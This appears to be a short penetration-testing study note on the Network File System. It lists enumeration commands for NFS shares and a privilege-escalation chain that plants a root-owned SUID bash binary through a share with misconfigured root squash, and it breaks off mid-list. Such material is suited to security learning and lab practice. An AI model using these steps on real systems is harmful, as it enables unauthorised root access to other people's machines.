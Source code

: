 # Network File System
Allows a system to share directories and files with others over a network.

## Enumeration
Establishes an active connection to the target hosts to discover potential attack vectors in the system, and the same 
 can be used for further exploitation of the system.

### nfs-common
```bash
sudo apt install nfs-common
```
List the NFS shares:
```bash
/usr/sbin/showmount -e [IP]
```
Create a directory on your machine to mount the share to:
```
mkdir /tmp/mount
```
1. Create mount point: the folder can be anywhere on the system.
2. `mount` to connect the NFS share to the mount point
```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
```
|   Flag	|   	|  
|---	|---	|
| -t nfs | type of device to mount |
| IP:share | ip of NFS serve and name of the share to mount	|
| -nolock | not to use NLM locking	|

# Exploitation
    NFS Access ->
 
         Gain Low Privilege Shell ->
 
             Upload Bash Executable to the NFS share ->
 
                 Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
 
                     Login through SSH ->
 
                         Execute SUID Bit Bash Executable ->
 
                             ROOT ACCESS1. 

- copy bash from Downloads to NFS `https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`
- The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"
- add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +s bash" other options +x +r
  (s s. s(setuid) means 'set user ID upon execution'.)
- 